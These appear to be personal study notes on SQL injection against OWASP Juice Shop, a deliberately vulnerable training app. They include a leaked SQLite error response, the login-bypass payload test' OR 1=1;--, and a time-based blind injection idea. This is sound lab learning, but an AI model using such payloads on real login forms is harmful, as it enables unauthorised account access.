

sudo docker run --rm -p 3000:3000 bkimminich/juice-shop
for running juice shop

tried wth username:test
password:test

-------------------------------------------------------------------
Input : test
(what happens in backend) SELECT * FROM Users where email='test';
so if I do
Input:test'
"email":"test'","password":"test"
(what happens in backend) SELECT * FROM Users where email='test'';
which will throw an SQL error na
so try that now

HTTP/1.1 500 Internal Server Error
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
Content-Type: application/json; charset=utf-8
Vary: Accept-Encoding
Date: Fri, 02 Apr 2021 12:32:46 GMT
Connection: close
Content-Length: 1169
{
"error": {
"message": "SQLITE_ERROR: unrecognized token: \"098f6bcd4621d373cade4e832627b4f6\"",
"stack": "SequelizeDatabaseError: SQLITE_ERROR: unrecognized token: \"098f6bcd4621d373cade4e832627b4f6\"\n at Query.formatError (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:415:16)\n at Query._handleQueryResponse (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:72:18)\n at afterExecute (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:246:27)\n at Statement.errBack (/juice-shop/node_modules/sqlite3/lib/sqlite3.js:14:21)",
"name": "SequelizeDatabaseError",
"parent": {
"errno": 1,
"code": "SQLITE_ERROR",
"sql": "SELECT * FROM Users WHERE email = 'test'' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL"
},
"original": {
"errno": 1,
"code": "SQLITE_ERROR",
"sql": "SELECT * FROM Users WHERE email = 'test'' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL"
},
"sql": "SELECT * FROM Users WHERE email = 'test'' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL"
}
}
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
THUS WE GOT TO KNOW FOLLOWING THINGS
Sqlite error means database is SQLITE
"SELECT * FROM Users WHERE email = 'test'' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL"
thus infer from this
INput: test' OR 1=1;--
SQL:SELECT * FROM Users WHERE email='test OR 1=1; --';
as SQL statemtn ends after ';' so everything after it fdoesnt exist and hence this time it wont check for a password bhi
this would gve us the first user that is the admin
this pocess is called as comment SQL Injection

at times we l have SQL injection bt we wont be able to see it at all called as blind sql injection
INput: test' (sleep 5)
so what it does is after u press login it just sleeps the system for u for the req amt f seconds
burp active scanner is very good at it
SOLVE ALL INJECTION CHALLENGES